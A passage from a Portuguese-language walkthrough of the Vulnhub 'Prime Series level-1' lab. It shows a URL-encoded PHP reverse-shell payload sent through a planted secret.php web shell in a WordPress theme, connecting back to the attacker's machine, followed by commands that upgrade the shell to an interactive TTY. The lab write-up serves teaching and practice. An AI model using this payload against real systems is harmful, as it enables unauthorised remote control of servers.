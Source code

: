 
* Depois utilizamos o Burp Suite para encodar o comando

![](/assets/img/Vulnhub/Prime_Series_level-1/encode-URL.png)


* Vamos deixar a porta escutando na kali e enviar o comando de shell reverso via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%39%32%2e%31%36%38%2e%31%35%30%2e%31%31%30%22%2c%34%34%33%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```

![](/assets/img/Vulnhub/Prime_Series_level-1/shell-reverso.png)


* Melhorando o shell cachorro que recebemos

```bash
script /dev/null
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```


![](/assets/img/Vulnhub/Prime_Series_level-1/melhorando-shell.png)
